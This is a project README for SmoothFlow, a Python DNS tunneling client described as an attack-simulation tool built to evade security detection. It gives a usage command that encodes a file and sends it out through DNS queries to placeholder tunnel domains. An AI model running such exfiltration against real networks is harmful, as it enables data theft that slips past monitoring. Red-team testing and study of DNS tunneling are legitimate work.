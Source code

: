 

# SmoothFlow - Advanced DNS Tunnel Application

SmoothFlow is an advanced DNS tunnel application developed for attack simulation purposes. It enables seamless and secure data transmission by encapsulating data within DNS queries, offering robust obfuscation and uninterrupted connectivity. The application is designed to be highly resilient against detection by security infrastructure, making it a valuable tool for testing and analyzing network security and data privacy. Key features include advanced encryption, adaptive protocol handling, and an intuitive interface.

## Features

- **Robust Data Obfuscation:** Encapsulates data in DNS queries to ensure robust obfuscation.
- **Seamless Connectivity:** Maintains uninterrupted connectivity for data transmission.
- **Cross-Platform Cache Management:** Clears DNS cache on both Windows and Linux systems.
- **Flexible Domain and DNS Configuration:** Customizable DNS server IPs, ports, and query types.
- **Error Handling and Logging:** Comprehensive logging for debugging and monitoring.
- **Automatic Package Installation:** Required Python packages are automatically installed when the script runs if they are missing.
- **Server Component:** A server-side component is planned to be added in a future update.

## Installation

To get started, you need to install the required Python packages. SmoothFlow will automatically install missing packages as needed.

### Requirements

- Python 3.6 or higher
- Required Python packages are automatically installed when the script runs if they are missing.
- The following Python packages:
  - `cryptography==39.0.1`
  - `dnspython==2.0.0`
  - `yagmail==0.15.293`
  - `tqdm==4.46.0`

### Installation Steps

1. Clone the repository:

    ```bash
    https://github.com/ebubekirbbr/SmoothFlow
    cd SmoothFlow
    ```

2. Run the script. The script will handle package installation if required:

    ```bash
    python SmootFlowClient.py --dnsips <dns_ips> --dnsport <dns_port> --tunneldomains <tunnel_domains> --filepath <file_path> --querytype <query_type> --timeout <timeout>
    ```

## Usage

Run the script with the necessary arguments:

```bash
  cd src_client
  python SmootFlowClient.py --dnsips <dns_ips> --dnsport <dns_port> --tunneldomains <tunnel_domains> --filepath <file_path> --querytype <query_type> --timeout <timeout>
```

### Arguments

- `--dnsips`: Comma-separated list of DNS server IPs.
- `--dnsport`: DNS server port (default is 53).
- `--tunneldomains`: Comma-separated list of tunnel domains.
- `--filepath`: Path to the file to be encoded and transmitted.
- `--querytype`: DNS query type (default is 'A').
- `--timeout`: Timeout for DNS queries (default is 1 second).

### Example

```bash
  cd src_client
  python SmootFlowClient.py --dnsips 8.8.8.8,8.8.4.4 --dnsport 53 --tunneldomains example.com,example.net --filepath ../example_files/MeetingNotes.pdf --querytype A --timeout 1
```

## Example Files

Files in the `example_files` directory contain completely fake data and do not include any confidential information. These files can be used for testing purposes.


## Details

- **Encoding and Transmission:** The application encodes the file in base64 and splits it into DNS queries.
- **File Size Requirement:** The file should be at least 10KB in size for testing purposes.
- **Logging:** Logs detailed information and errors to help with debugging.

## Server-Side

- If you wanna test in local, you need to set 127.0.0.1 as host and set different port than 53 for example 9999 (default) 
```bash
  cd src_server
  python SmoothFlowServer.py --host 127.0.0.1 --port 9999
```

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer

SmoothFlow is intended for educational and testing purposes only. Ensure you have permission to test DNS tunneling on any network you use.

